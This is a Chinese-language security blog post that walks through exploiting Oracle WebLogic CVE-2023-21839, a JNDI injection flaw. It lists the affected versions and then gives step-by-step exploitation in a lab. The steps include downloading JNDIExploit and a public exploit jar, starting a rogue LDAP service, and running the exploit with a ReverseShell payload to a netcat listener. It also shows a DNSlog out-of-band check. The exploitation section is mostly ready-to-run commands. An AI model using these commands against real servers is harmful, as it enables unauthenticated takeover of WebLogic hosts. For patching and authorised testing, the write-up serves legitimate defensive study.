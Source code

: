 #  Weblogic-CVE-2023-21839 漏洞解析   
 船山信安   2024-05-12 00:01  
  
# 一、漏洞概述  
  
RCE漏洞，该漏洞允许未经身份验证的远程，通过T3/IIOP协议网络访问并破坏WebLogic服务器，成功利用此漏洞可导致Oracle WebLogic服务器被接管，通过  
rmi/ldap远程协议进行远程命令执行,,当   
JDK 版本过低或本地存在小工具（javaSerializedData）时，可能导致远程代码执行。  
  
由此可见：CVE-2023-21839是一个weblogic的JNDI注入漏洞。  
# 二、影响范围  
  
Oracle WebLogic Server 12.2.1.3.0  
  
Oracle WebLogic Server 12.2.1.4.0  
  
Oracle WebLogic Server 14.1.1.0.0  
# 三、利用方式  
## 反弹shell  
  
一、启用http://your-ip:7001/console，可以看到登录界面  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/7nIrJAgaibicMXYXXD9lcDRBTzxRzp7F4Xuh3bNgqJUWHs8dJxjhLaZawicMwickfhnSIRk7ibG43Qia5EpVYJ4Ct4Gg/640?wx_fmt=jpeg&from=appmsg "")  
  
下载漏洞利用工具  
  
  
JNDIExploit-1.4-SNAPSHOT.jar  
  
二、启动ladp服务，在kali上同时启动监听：  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/7nIrJAgaibicMXYXXD9lcDRBTzxRzp7F4XFrDOPTj9gL9QGciaFMXTlDWcCVz7ByLwSt2Fd6iakw4RPCckYzE1Rk5g/640?wx_fmt=jpeg&from=appmsg "")  
  
vps上使用JNDIExploit开启ldap协议服务，这里注意 1389跟3456端口开放  
```
java -jar JNDIExploit-1.4-SNAPSHOT.jar -i 192.168.111.14
```  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/7nIrJAgaibicMXYXXD9lcDRBTzxRzp7F4XUAUW3XEyAYmP540ofqSicUicwByJOZmicFZmOccKIDTZAfWeCGMM087Aw/640?wx_fmt=jpeg&from=appmsg "")  
  
漏洞EXP下载：  
```
https://github.com/DXask88MA/Weblogic-CVE-2023-21839
```  
  
三、启动EXP（注意：jdk版本仍需低版本，原装JDK17不必卸载，下载一个低版本的JDK之后，切换即可）  
```
java -jar Weblogic-CVE-2023-21839.jar 192.168.111.6:7001 ldap://192.168.111.14:1389/Basic/ReverseShell/192.168.111.14/9999

java -jar 目标服务器ip地址:端口 ldap地址/Basic/ReverseShell/ldap服务器IP地址/nc监听端口
```  
  
没有明显的变化  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/7nIrJAgaibicMXYXXD9lcDRBTzxRzp7F4XvohVIxeo5DJ3XhhgLGZL1EGsBaFAY7TAUdIgHibETVvyJ8RZHjibeHeQ/640?wx_fmt=jpeg&from=appmsg "")  
  
四、查看LDAP服务器，成功获取  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/7nIrJAgaibicMXYXXD9lcDRBTzxRzp7F4X63n9gPvCgWGkSEqLLRqq60esnyKyLofPah5iazC4ecYib1FSczty3JEw/640?wx_fmt=jpeg&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/7nIrJAgaibicMXYXXD9lcDRBTzxRzp7F4X2Byt4c0tViakSfIABKNicVwbaJxm7ByfXibSYP0fGQ8bxEJb8jU3kbfGw/640?wx_fmt=jpeg&from=appmsg "")  
## DNSlog流量外带  
```
eg:java -jar Weblogic-CVE-2023-21839.jar 靶场ip：7001 ldap:// xxxxxx.dnslog.cn

java -jar Weblogic-CVE-2023-21839.jar 192.168.111.6:7001 ldap:// vqd5uu.dnslog.cn
```  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/7nIrJAgaibicMXYXXD9lcDRBTzxRzp7F4XkicLjBibyicHayYgCXzxl6AsyRuTZ6szu9VKfJypgj46VSm9tM7J8mPBw/640?wx_fmt=jpeg&from=appmsg "")  
  
还可以利用工具实现。。。。  
  
来源：https://www.freebuf.com/  
  
  
